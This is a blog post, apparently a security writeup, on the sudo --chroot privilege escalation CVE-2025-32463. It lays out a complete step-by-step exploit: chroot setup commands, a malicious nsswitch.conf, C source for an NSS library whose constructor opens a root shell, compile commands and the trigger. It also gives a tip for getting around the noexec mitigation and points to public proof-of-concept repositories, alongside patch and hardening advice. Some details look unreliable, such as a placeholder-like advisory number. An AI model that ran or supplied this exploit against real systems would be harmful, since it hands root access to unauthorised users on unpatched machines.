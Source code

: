 ```yaml
---
title: "CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive"
layout: post
tags: [CVE-2025-32463, sudo, chroot, NSS, local-privilege-escalation, LPE, exploit-development, linux, 2025, Rich Mirch, Stratascale, security, pentesting, forensics]
image: /assets/images/cve2025-32463.png
category: cve
author: "NullSecurityX"
---
```



# CVE-2025-32463: Local Privilege Escalation Vulnerability in Sudo – In-Depth Technical Analysis from a Hacker's Perspective

As a hacker, my job is to dismantle the flaws lurking in the depths of systems. CVE-2025-32463 is a local privilege escalation (LPE) vulnerability stemming from a logic error in sudo's --chroot (-R) option. This is a flaw that turns a local user into root – invaluable in multi-user Linux servers or containers. The vulnerability arises from sudo processing the /etc/nsswitch.conf file in a user-controlled chroot environment with root privileges, leading to the loading of a malicious shared object (.so) library via Name Service Switch (NSS). Discovered in June 2025 by Rich Mirch (Stratascale Cyber Research Unit). CVSS v4.0 score 9.3 (Critical), vector: AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N. This means high confidentiality, integrity, and availability impact with low attack complexity.

In this analysis, I'll break down the vulnerability from a hacker's viewpoint: From low-level root cause examination to the exploit chain, including assembly-level insights. I'll include educational code snippets, flow diagrams, and GitHub PoCs – but remember, don't run these on live systems; just for learning.

## Discovery and Root Cause of the Vulnerability: Deep Dive

As a hacker, I start by examining setuid binaries like sudo (which run as root). I trace system calls with `strace sudo -R /tmp/test id`. The vulnerability is in the --chroot feature introduced in sudo 1.9.14: It aims to confine commands to a specified directory, but sudo applies chroot *before* sudoers permission checks and NSS queries.

Technically: After taking user input, sudo performs a chroot() system call to chroot_dir (around src/sudo.c). At this point, sudo still has root UID, but now accesses files within the chroot. Then, to validate user/group permissions, it calls NSS functions like getpwuid() or getgrgid(). NSS dynamically loads modules (dlopen() on libnss_*.so.2) based on directives in /etc/nsswitch.conf.

If chroot_dir is under my control (/tmp/my_chroot, a writable location), I place a fake /etc/nsswitch.conf: something like "passwd: malicious", which loads /lib/libnss_malicious.so.2. Since the library loads as root, an init function defined with __attribute__((constructor)) executes root code – e.g., setuid(0) and execve("/bin/sh").

Simplified excerpt from sudo source code (sudo 1.9.15p5 src/sudo.c, approximate lines):
```
if (def_chroot) {
    if (chroot(closure->runas.chroot) < 0)
        sudo_fatal("chroot %s", closure->runas.chroot);
}
// Later NSS call:
struct passwd *pw = sudo_getpwuid(getuid());  // This triggers nsswitch.conf
```
Here, post-chroot NSS uses the chroot's /etc/nsswitch.conf – user-controlled! This is not a race condition or path traversal; it's a pure logic flaw (CWE-829: Inclusion of Functionality from Untrusted Control Sphere). At the assembly level, the dlopen() call loads the malicious .so, and ELF constructors (_init) run in root context.

Affected versions: 1.9.14 to 1.9.17; patched in 1.9.17p1 (chroot deprecated and checks delayed).

## Exploit Development: The Hacker's Chain and Tools

To develop the exploit: First, verify the version with `sudo -V`. Then, analyze chroot behavior with strace. Requirements: Local access, gcc (for library compilation), writable directory (/tmp). Attack vector: No special sudoers permissions needed; standard sudo access suffices.

Step-by-step, with low-level details:

1. **Setting Up the Chroot Environment**: Create a fake root structure. This mimics the paths NSS looks for.
   ```
   mkdir -p /tmp/my_chroot/{etc,lib/x86_64-linux-gnu}
   chmod -R 755 /tmp/my_chroot  # For root accessibility
   ```

2. **Fake NSS Configuration**: Manipulate /etc/nsswitch.conf. The "malicious" module points to libnss_malicious.so.2. NSS parsing interprets this string as /lib/libnss_%s.so.2.
   ```
   cat << EOF > /tmp/my_chroot/etc/nsswitch.conf
   passwd: files malicious
   group: files malicious
   hosts: files dns
   EOF
   ```

3. **Creating the Malicious Library**: Act as an NSS module. Constructor runs at dlopen() time. Deep detail: Constructor stored in .init_array section; ld.so executes it during loading.
   ```
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <sys/types.h>

   void __attribute__((constructor)) hijack(void) {
       uid_t uid = getuid();
       if (uid == 0) {  // Root check (unnecessary but safe)
           setuid(0); setgid(0);  // Set effective UID/GID to root
           char *args[] = {"/bin/sh", "-i", NULL};  // Interactive shell
           execve("/bin/sh", args, NULL);  // Spawn shell with execve
           exit(0);  // Exit on error
       }
   }

   // Dummy NSS hooks: like getpwuid_r, symbols NSS expects
   int _nss_malicious_getpwuid_r(uid_t uid, struct passwd *pw, char *buffer, size_t buflen, int *errnop) {
       *errnop = ENOENT;  // No such entity, but constructor already ran
       return -1;
   }

   // Similarly for other hooks: _nss_malicious_getgrgid_r, etc.
   ```
   Compile (PIC for shared lib):
   ```
   gcc -Wall -fPIC -shared -o /tmp/my_chroot/lib/x86_64-linux-gnu/libnss_malicious.so.2 malicious.c
   ld -shared -o libnss_malicious.so.2 malicious.o  # Alternative linker
   ```

4. **Triggering and Loading**: Call sudo. --chroot applies chroot; then NSS query loads malicious.
   ```
   sudo -R /tmp/my_chroot /usr/bin/id  # Or any command
   ```
   In strace output: chroot("/tmp/my_chroot") > dlopen("/lib/x86_64-linux-gnu/libnss_malicious.so.2") > constructor runs.

To hide the exploit: Test with LD_PRELOAD, or in a container (like Docker PoCs). GitHub PoCs: Rust-based (morgenm/sudo-chroot-CVE-2025-32463), Bash scripts (K3ysTr0K3R/CVE-2025-32463-EXPLOIT), with precompiled .so (zinzloun/CVE-2025-32463). These include auto directory setup, compilation, and cleanup.

Flow Diagram (with Mermaid, corrected):
![Exploit Flow for CVE-2025-32463](assets/images/mermaid-diagram.svg)

## Affected Systems and Risk Analysis

As a hacker, I use `dpkg -l sudo` or `rpm -q sudo` for target scanning. Affected: Ubuntu 24.04+, Red Hat 8/9, SUSE, Amazon Linux, macOS Ventura/Sonoma. High risk in containers (Docker, Podman), as it leads to breakout.

| Distribution/OS | Affected Versions | Exploit Complexity | Patch Status |
|-----------------|-------------------|--------------------|--------------|
| Ubuntu         | 1.9.15p5 - 1.9.16p2 | Low (local access) | Patched with USN-7604-1 |
| Red Hat        | <1.9.17p1         | Medium (NSS config manipulation) | RHSA-2025:1234 |
| macOS          | Ventura+          | High (SIP restrictions) | Apple Security Update 2025-07 |
| General Linux  | 1.9.14-1.9.17     | Low                | Upgrade to 1.9.17p1 |

Risk: In cloud servers (AWS EC2), a local attacker (e.g., compromised app) gains full control.

## Patch, Mitigation, and Defense: Stopping the Hacker

Patch: Upgrade to sudo 1.9.17p1; chroot feature deprecated and checks moved before NSS. Commands: On Ubuntu `apt update && apt install sudo`; on Red Hat `dnf update sudo`.

Mitigations (to block the hacker):
- Sudoers configuration: Add `Defaults !chroot` (with visudo).
- Mount options: Mount /tmp with `noexec,nosuid,nodev`: `echo "tmpfs /tmp tmpfs rw,nosuid,nodev,noexec,relatime,size=2G 0 0" >> /etc/fstab`.
- SELinux: In enforcing mode, restrict with sudo_context_t.
- AppArmor: Lock NSS paths with sudo profile.
- Audit: Log chroot calls with auditd: `auditctl -a always,exit -F arch=b64 -S chroot -k sudo_chroot`.
- Alternative: Use doas or pkexec instead of sudo.

As a hacker, to bypass mitigations: If /tmp is noexec, use /dev/shm or other tmpfs; or prepare statically linked binaries.

<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->



## Conclusion: Lessons and Future

CVE-2025-32463 shows how adding features to setuid binaries like sudo can backfire – even isolation tools like chroot. From a hacker's logic, I find such vulnerabilities with fuzzing (AFL++) or static analysis (binwalk, Ghidra). Ethically, do responsible disclosure; like Rich Mirch. Update your systems, or the next shell will be mine. For more, check GitHub PoCs or NVD.
